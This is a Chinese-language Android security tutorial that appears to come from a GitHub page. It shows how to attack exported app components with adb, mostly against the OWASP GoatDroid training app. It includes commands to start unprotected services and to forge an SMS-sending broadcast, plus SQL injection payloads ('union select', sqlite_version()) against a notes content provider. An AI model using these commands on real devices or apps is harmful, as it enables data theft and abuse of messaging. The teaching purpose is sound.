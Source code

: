 ## 攻击应用组件
### 针对activity的攻击
如果导出属性为true，那么activity可以被其他应用的组件调用；如果为false，则activity只能被同一个应用或具有相同用户ID的应用的组件调用。

### 针对service的攻击
安卓应用中的服务通常用于在后台长时间运行的任务。虽然这是服务的常见用法，但是，还存在一些其他类型的服务,他们能为设备上的其他应用或同一应用的其他组件提供接口。
所以，服务基本上可以分为两种：启动和绑定。
我们可以使用startService(）来启动服务。服务启动后，会在后台不停的运行，即使启动该服务的组件已经销毁。
也可以使用bindService()来绑定服务，绑定服务提供了一个从客户端到服务端的接口，能够让组件与服务进行交互、发送请求、获取结果，甚至可以通过进程间通信在不同的
进程上实现这些功能。
可以通过下面三种方法创建绑定服务：
- 扩展Binder类
如果开发者想要在同一个应用中调用某个服务，建议使用这种方法。这样，设备上的其他应用就不能调用这个服务。
具体方法是：扩展Binder类来创建一个接口，并从onBind()返回一个关于它的实例，客户端接收到binder后，可以通过它直接访问该服务中的公共方法。

- 使用Messenger
如果需要跨进程使用接口，可以使用Messenger为服务创建一个接口。通过这种方式创建的服务可以定义Handler，而且Handler能够响应不同类型的Message对象。这样，客户端
可以使用Message对象向服务发送命令。

- 使用AIDL
AIDL是一种允许一个应用调用另外一个应用的方法。
与activity类似，一个未受保护的服务也可以被其他设备上其他应用调用。使用startService()就可以调用第一种服务，方法通俗易懂，我们通过adb命令也可以调用第一种服务。
我们可以通过am工具指定startservice选项来调用这个服务,示例：
服务的service name = ".services.LocationService"
intent filter action name = "org.owasp.goatdroid.forgoats"
```shell
adb shell am startservice -n org.owasp.goatdroid.forgoats/.services.LocationService -a org.owasp.goatdroid.forgoats.services.LocationService
```

### 针对广播接收器的攻击
广播接收器是安卓系统中最常见的组件之一，开发者可以利用广播接收器来添加很多功能。
导出的广播接收器容易受到攻击。
比如：
广播的 name = ".broadcastreceivers.SendSMSNowReceiver"
intent filter action name = "org.owasp.goatdroid.forgoats.SOCIAL_SMS"
应用是无法检测是谁发送了广播事件。攻击者可以利用这一点，并使用一下的命令来创建一个特殊的Intent：

```shell
adb shell am broadcast -a org.owasp.goatdroid.forgoats.SOCIAL_SMS -n org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats/.broadcastreceivers.
SendSMSNowReceiver -es phoneNumber 5556 -es message CRACKED
```
- am broadcast: 发送广播请求
- -a: 指定action元素
- -n: 指定组件名称
- -es: 指定字符串键值对的其他名称

### 对内容提供程序的攻击
如果应用的目标SDK版本号是api 17,那么默认是导出的。从api 17开始，这个默认值改变了，默认为false。

#### 查询内容提供程序
如果内容提供程序是导出的，我们可以对它进行查询并读取其中的内容，也可以插入或删除内容，但是，在此之前，我们需要首先找到内容提供程序的URI。使用Apktool分解apk文件
时，它会在smali文件夹中生成一些.smali文件。
得到smali文件后
我们可以使用grep命令进行地柜搜索，查找包含“content://”的字符串：
```shell
grep -lr "content://" * Note$NoteAccount.smali NoteProvider.smali
```
找到URI后，比如“content://com.sonyericsson.notes.provider.Note/notes/”
接下来，根据上面的URI读取内容就很简单了，只需执行命令：
```shell
adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/
```
在安卓4.1.1系统开始使用了content命令。这实际上是存放在/system/bin/content下的一个脚本。可以利用它通过adb shell直接读取内容提供程序。
按照下面的方法运行前面的命令，可以读取内容提供程序数据库的内容：
```shell
adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/
```

#### 通过adb对内容提供程序进行SQL注入
内容提供程序通常是基于SQLite数据库的。如果输入数据库的命令没有经过合适的处理，就会发生于Web应用相同的SQL注入的情形。
查询条件语句
```shell
adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1"
```
给查询语句加上单引号
```shell
adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1'"
```
这个时候会报错误单引号位于后半个括号之前，从而导致一个错误,
因此我们可以在条件语句中首先关闭括号，在括号后注入自己的sql语句。
```shell
adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,2,3,4-- ("
```
上面的命令可以看到两种数据库查询结果

##### 运行数据库函数
对前面的查询语句进行简单的修改，我们可以提取出更过的信息，如数据库版本号，表名以及其他有趣的信息

- 查找Sqlite版本号 sqlite_version()
  ```shell
  adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,sqlite_version(),3,4-- ("
  ```

- 查找表名 tbl_name()
  ```shell
  adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1 ) union select 1,tbl_name(),3,4-- ("
  ```